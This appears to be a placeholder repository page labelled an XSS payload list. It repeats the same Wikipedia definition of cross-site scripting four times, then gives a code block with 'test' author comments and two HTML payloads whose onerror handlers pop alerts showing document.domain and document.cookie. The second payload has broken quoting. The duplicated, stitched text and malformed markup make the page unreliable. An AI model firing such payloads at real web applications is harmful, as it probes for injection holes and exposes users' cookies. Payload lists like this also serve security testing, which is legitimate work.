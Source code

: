 # myTest
#### XSS Payload List :

From Wikipedia, the free encyclopedia
Jump to navigationJump to search
"XSS" redirects here. For other uses, see XSS (disambiguation).
Cross-site scripting (XSS) is a type of computer security vulnerability typically found in web applications. XSS enables attackers to inject client-side scripts into web pages viewed by other users. A cross-site scripting vulnerability may be used by attackers to bypass access controls such as the same-origin policy. Cross-site scripting carried out on websites accounted for roughly 84% of all security vulnerabilities documented by Symantec as of 2007.[1] Bug bounty company HackerOne in 2017 reported that XSS is still a major threat vector.[2] XSS effects vary in range from petty nuisance to significant security risk, depending on the sensitivity of the data handled by the vulnerable site and the nature of any security mitigation implemented by the site's owner.

From Wikipedia, the free encyclopedia
Jump to navigationJump to search
"XSS" redirects here. For other uses, see XSS (disambiguation).
Cross-site scripting (XSS) is a type of computer security vulnerability typically found in web applications. XSS enables attackers to inject client-side scripts into web pages viewed by other users. A cross-site scripting vulnerability may be used by attackers to bypass access controls such as the same-origin policy. Cross-site scripting carried out on websites accounted for roughly 84% of all security vulnerabilities documented by Symantec as of 2007.[1] Bug bounty company HackerOne in 2017 reported that XSS is still a major threat vector.[2] XSS effects vary in range from petty nuisance to significant security risk, depending on the sensitivity of the data handled by the vulnerable site and the nature of any security mitigation implemented by the site's owner.

From Wikipedia, the free encyclopedia
Jump to navigationJump to search
"XSS" redirects here. For other uses, see XSS (disambiguation).
Cross-site scripting (XSS) is a type of computer security vulnerability typically found in web applications. XSS enables attackers to inject client-side scripts into web pages viewed by other users. A cross-site scripting vulnerability may be used by attackers to bypass access controls such as the same-origin policy. Cross-site scripting carried out on websites accounted for roughly 84% of all security vulnerabilities documented by Symantec as of 2007.[1] Bug bounty company HackerOne in 2017 reported that XSS is still a major threat vector.[2] XSS effects vary in range from petty nuisance to significant security risk, depending on the sensitivity of the data handled by the vulnerable site and the nature of any security mitigation implemented by the site's owner.

From Wikipedia, the free encyclopedia
Jump to navigationJump to search
"XSS" redirects here. For other uses, see XSS (disambiguation).
Cross-site scripting (XSS) is a type of computer security vulnerability typically found in web applications. XSS enables attackers to inject client-side scripts into web pages viewed by other users. A cross-site scripting vulnerability may be used by attackers to bypass access controls such as the same-origin policy. Cross-site scripting carried out on websites accounted for roughly 84% of all security vulnerabilities documented by Symantec as of 2007.[1] Bug bounty company HackerOne in 2017 reported that XSS is still a major threat vector.[2] XSS effects vary in range from petty nuisance to significant security risk, depending on the sensitivity of the data handled by the vulnerable site and the nature of any security mitigation implemented by the site's owner.

```
<!-- Project Name  : Cross Site Scripting ( XSS ) Vulnerability Payload List -->
<!--        Author : Test -->
<!--      Linkedin : https://www.linkedin.com/in/test/ -->
<!--        GitHub : https://github.com/test/ -->
<!--       Twitter : https://twitter.com/test -->
<!--        Medium : https://medium.com/@test -->


<img src=1 href=1 onerror="javascript:alert(document.domain)"></img>
<image src="https://github.com/dummy.jpa href=1 onerror="javascript:alert(document.cookie)"></image>
